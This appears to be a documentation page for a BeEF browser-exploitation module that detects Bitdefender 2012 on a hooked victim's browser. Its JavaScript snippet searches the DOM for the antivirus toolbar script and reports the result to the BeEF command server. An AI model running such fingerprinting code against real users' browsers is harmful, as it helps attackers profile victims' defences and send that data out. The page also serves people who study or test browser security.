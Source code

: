 ## Summary

* **Objective**: Detect Bit Defender 2012 on the system
* **Date**: June 2013
* **Authors**: Nbblrr
* **Browsers**: All
* Code

## Internal Working

Bit Defender 2012 includes a javascript script in each browser to display this bar :
[[Images/module_bitdefender2012_bar.png|align=center]]

So it is easy to look for the script in the DOM :

```javascript
    var temp=document.body.innerHTML;
    var key="netdefender/hui/ndhui.js";
    if(temp.indexOf(key)>0) {
        beef.net.send('<%= @command_url %>', <%= @command_id %>,'bitdefender=Installed');
    } else {
        beef.net.send('<%= @command_url %>', <%= @command_id %>,'bitdefender=Not Installed');
    };
```


## Screenshots

[[Images/module_bitdefender2012_bar.png|align=center]]

[[Images/module-detect-bitdefender2012.png|align=center]]

## Feedback

